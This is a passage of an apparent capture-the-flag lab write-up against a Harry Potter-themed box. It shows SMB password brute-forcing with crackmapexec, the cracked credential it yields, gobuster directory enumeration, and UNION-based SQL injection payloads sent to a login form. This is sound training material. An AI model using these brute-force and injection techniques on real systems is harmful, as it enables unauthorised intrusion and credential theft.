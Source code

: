 Let's use the username Hermonine and try cracking smb with password list spellnames.txt!

crackmapexec smb $IP -u hermoine -p spellnames.txt

```bash
SMB         10.10.7.13      445    HOGWARTZ-CASTLE  [+] \hermoine:avadakedavra
```

# Investigating - Port 80

Looking at source code found some interesting comments!

```
TODO: Virtual hosting is good. 
TODO: Register for hogwartz-castle.thm
````

Adding it to the /etc/hosts file and accessing it gives us a different page now!

# Gobuster

gobuster dir -u http://10.10.7.13/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -q

```bash
/backup               (Status: 301) [Size: 309] [--> http://10.10.7.13/backup/]
```

But couldn't access it!

gobuster dir -u http://hogwartz-castle.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -q

```bash
/login                (Status: 405) [Size: 178]
/static               (Status: 301) [Size: 327] [--> http://hogwartz-castle.thm/static/]
/logout               (Status: 302) [Size: 209] [--> http://hogwartz-castle.thm/]
```

We got 3 usernames so far and tried to bruteforce with ssh but no luck. So only left is the login form and tried spellnames.txt for all users still no luck! So tried for SQLi by injection a singlr quites and got 500 internal server error. We have SQLi now let's find the number of columns.

I intercepted the request in Burp and modified the request as follows!

```
user=' union select 1,2-- -&password=harry
user=' union select 1,2-- -&password=harry
user=' union select 1,2,3-- -&password=harry
user=' union select 1,2,3,4-- -&password=harry => Waiting for some time we got a hit! It says Password for 1 is incorrect! 4
```

From the above result we can confirm that column 1 and 4 are vulnerable!

user=' union select 1,2,3,sqlite_version();-- -&password=123

And we got the output!
